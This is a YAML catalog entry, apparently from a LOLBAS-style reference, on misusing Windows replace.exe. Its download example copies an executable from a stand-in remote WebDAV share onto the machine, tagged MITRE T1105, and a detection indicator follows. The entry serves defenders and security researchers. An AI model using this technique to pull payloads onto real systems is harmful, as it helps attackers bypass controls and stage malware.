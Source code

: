 ```yaml
---
name: Replace.exe
description: Used to replace file with another file
functions:
  download:
    - description: Download/Copy bar.exe to outdir
      code: replace.exe \\webdav.host.com\foo\bar.exe c:\outdir /A
      mitreid: T1105
      mitrelink: https://attack.mitre.org/wiki/Technique/T1105
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Download file
  copy:
    - description: Copy file.cab to destination
      code: replace.exe C:\Source\File.cab C:\Destination /A
      mitreid: T1105
      mitrelink: https://attack.mitre.org/wiki/Technique/T1105
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Copy files
resources:
    - resource: https://twitter.com/elceef/status/986334113941655553
    - resource: https://twitter.com/elceef/status/986842299861782529
fullpath:
    - path: C:\Windows\System32\replace.exe
    - path: C:\Windows\SysWOW64\replace.exe
detection:
  - IOC: Replace.exe getting files from remote server
acknowledgement:
  - Person: elceef
    Handle: '@elceef'
---
```

